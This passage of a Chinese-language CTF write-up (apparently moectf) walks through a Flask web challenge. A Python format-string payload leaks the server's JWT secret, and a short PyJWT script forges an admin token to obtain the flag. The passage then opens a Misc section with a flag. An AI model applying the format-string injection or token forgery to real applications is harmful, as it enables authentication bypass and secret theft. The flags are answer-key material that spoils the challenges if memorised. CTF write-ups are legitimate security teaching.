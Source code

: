 ```python
        return message.format(user)
    else:
        return render_template('flag.html', name=name)


if __name__ == "__main__":
    app.run()
```

该题需要得到 `jwt` 为 `admin` 来获取 flag，在生成 `jwt` 的前提是获取 `secret` 和 `headers` ，先随便传入一个 name 来获取 `jwt` ，Payload 如下

```
name=K1sARa
```

可以得到 token 如下

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
```

在 `/hello` 中可以通过跟上题一样的 Python 格式化字符串来获取 `secret` 和 `headers` 的值，构造的 Payload 如下

```
flag={0.__class__.__init__.__globals__}
```

通过回显可以得到 `secret` 的值为 `u_have_kn0w_what_f0rmat_i5` ， `headers` 的值为 `{'alg': 'HS256', 'typ': 'JWT'}` 。

通过以下代码

```python
import jwt

print(jwt.encode({
    'name': 'admin'
}, 'u_have_kn0w_what_f0rmat_i5', algorithm='HS256', headers= {
    'alg': 'HS256',
    'typ': 'JWT'
}))
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4ifQ.jlAcmWWxtmNLxbxwfRE45Fxf16dX6LQmrK_1dgx7zmg
```

可以得到用户名为 `admin` 的 token，通过这个 token 作为 Cookie 再去访问 `/hello` 就可以得到 flag 力！

## Misc

### misc入门指北

flag 在 markdown 文件末尾 `moectf{Th1s-1s-Misc}` ！指北好耶！

### find\_me
